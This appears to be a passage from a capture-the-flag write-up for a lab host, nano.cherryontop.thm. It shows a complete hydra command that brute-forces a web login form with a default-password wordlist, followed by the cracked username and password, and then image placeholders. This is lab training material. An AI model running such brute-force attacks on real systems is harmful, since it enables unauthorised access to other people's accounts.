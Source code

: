 ![image.png](image%203.png)

> **Login Password Brute Force**
> 

`hydra -l puppet -P /usr/share/seclists/Passwords/cirt-default-passwords.txt nano.cherryontop.thm http-post-form "/login.php:username=^USER^&password=^PASS^&submit=:Bad password" -t 64 -F`

```bash
[80][http-post-form] host: nano.cherryontop.thm   login: puppet   password: master
```

> **Login Phase**
> 

![image.png](image%204.png)
